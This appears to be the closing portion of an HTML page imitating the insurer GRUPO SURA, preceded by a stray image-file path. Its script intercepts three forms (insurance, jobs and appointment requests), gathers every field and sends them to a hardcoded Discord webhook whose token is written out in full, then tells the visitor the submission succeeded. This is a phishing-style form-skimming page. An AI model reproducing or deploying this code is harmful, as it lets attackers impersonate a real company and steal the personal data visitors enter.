     <footer>
        &copy; 2024 GRUPO SURA. Todos los derechos reservados.
    </footer>

    <script>
        const webhookURL = 'https://discord.com/api/webhooks/1309930004012077096/qNjxM5Ccvu2mZfO6fNfpPC-cSl_KN-_T7dFrP_vfRh0ZHJmtfIrDqufXIaV09e2RMbOH'; //

        // Función para mostrar la sección correspondiente
        function showSection(sectionId) {
            const sections = document.querySelectorAll('.form-section');
            sections.forEach(section => section.style.display = 'none');
            document.getElementById(sectionId).style.display = 'block';
        }

        // Función para enviar datos del formulario
        function handleFormSubmit(event, formId) {
            event.preventDefault();
            const form = document.getElementById(formId);
            const formData = new FormData(form);

            const data = {};
            formData.forEach((value, key) => {
                data[key] = value;
            });

            fetch(webhookURL, {
                method: 'POST',
                headers: { 'Content-Type': 'application/json' },
                body: JSON.stringify(data),
            })
            .then(response => alert('Formulario enviado correctamente'))
            .catch(error => alert('Hubo un error al enviar el formulario'));
        }

        // Asignar la función a cada formulario
        document.getElementById('segurosForm').addEventListener('submit', (e) => handleFormSubmit(e, 'segurosForm'));
        document.getElementById('trabajosForm').addEventListener('submit', (e) => handleFormSubmit(e, 'trabajosForm'));
        document.getElementById('citasForm').addEventListener('submit', (e) => handleFormSubmit(e, 'citasForm'));
    </script>
</body>
</html>
